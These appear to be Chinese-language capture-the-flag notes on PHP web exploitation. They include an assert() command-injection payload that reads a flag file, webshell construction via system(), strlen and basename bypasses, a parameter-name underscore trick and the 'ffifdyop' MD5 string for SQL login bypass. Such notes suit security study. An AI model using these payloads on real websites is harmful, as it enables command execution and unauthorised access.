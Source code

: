 **assert(mixed $assertion, Throwable $exception = ?): bool**

```
例如
?page=').system('cat templates/flag.php');//

assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
assert("strpos('').system('ls');//', '..') === false") or die("Detected hacking attempt!");

将传入的参数视为代码执行。判断是否会执行错误，没有错误则返回True否则返回False，与在参数中传入调用外部命令的方法如system可以构造出一个webshell

在PHP7.1版本以后， assert()默认不再可以执行代码
```

**strlen()**

```
返回给定的字符串 string 的长度

但是当参数不为字符串时，会返回0

可以采用%0a绕过
```

**basename()**

```
payload:http://192.168.52.130/a.php/utils.php/你好?show_source=1
```

## 含特殊符号传参

[谈一谈PHP中关于非法参数名传参问题_php的非法传参_末 初的博客-CSDN博客](https://blog.csdn.net/mochu7777777/article/details/115050295)

题：mo_chu.7

**点和空格会转换成下划线**

payload:?mo[chu.7=xxx

当`PHP版本小于8`时，如果参数中出现中括号`[`，中括号会被转换成下划线`_`，但是会出现转换错误导致接下来如果该参数名中还有`非法字符`并不会继续转换成下划线`_`，也就是说如果中括号`[`出现在前面，那么中括号`[`还是会被转换成下划线`_`，但是因为出错导致接下来的非法字符并不会被转换成下划线`_`

PHP8中这种转换错误被修复了，传入的参数名中非法字符一律全部转换为了下划线

## 神奇字符串

```
ffifdyop

经过md5加密后：276f722736c95d99e921722cf9ed621c

再转换为字符串：'or'6<乱码>  即  'or'66�]��!r,��b
用途：

select * from admin where password=''or'6<乱码>'
就相当于select * from admin where password=''or 1  实现sql注入

129581926211651571912466741651878684928 也可达同样的效果
```
